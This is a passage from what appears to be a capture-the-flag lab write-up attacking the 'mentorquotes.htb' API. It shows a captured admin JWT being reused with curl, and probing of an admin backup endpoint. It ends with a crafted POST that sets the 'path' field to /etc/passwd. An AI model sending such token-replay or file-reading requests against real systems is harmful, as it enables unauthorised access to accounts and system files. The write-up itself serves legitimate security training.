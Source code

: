 ```bash
    "username": "james"
  },
  {
    "id": 11,
    "email": "james222@mentorquotes.htb",
    "username": "james"
  },
  {
    "id": 12,
    "email": "james2@foo.bar",
    "username": "james"
  }
]
```

Not great, but a little progress -- we have admin privileges to the API and we can see all the junk accounts I created trying to get access initially, including the account for james and finally what looks like a service account.  We can also reach the `/admin` endpoint now -- which appears to be a rather crude API service discovery endpoint:

```bash
$curl -s -L -H "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0" -H "Host: api.mentorquotes.htb" http://api.mentorquotes.htb/admin | jq
{
  "admin_funcs": {
    "check db connection": "/check",
    "backup the application": "/backup"
  }
}
```

GET `/admin/backup` gives a *Method Not Allowed* error.  POST with an empty JSON body gives:

```
HTTP/1.1 422 Unprocessable Entity
Date: Sun, 19 Feb 2023 07:21:38 GMT
Server: uvicorn
content-length: 88
content-type: application/json
Connection: close

{"detail":[{"loc":["body","path"],"msg":"field required","type":"value_error.missing"}]}
```

Let's specify a path, seeing as though the input validation fails on this field:

```
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://api.mentorquotes.htb/docs
DNT: 1
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
Content-Length: 30

{
"path":   "/etc/passwd"
}
```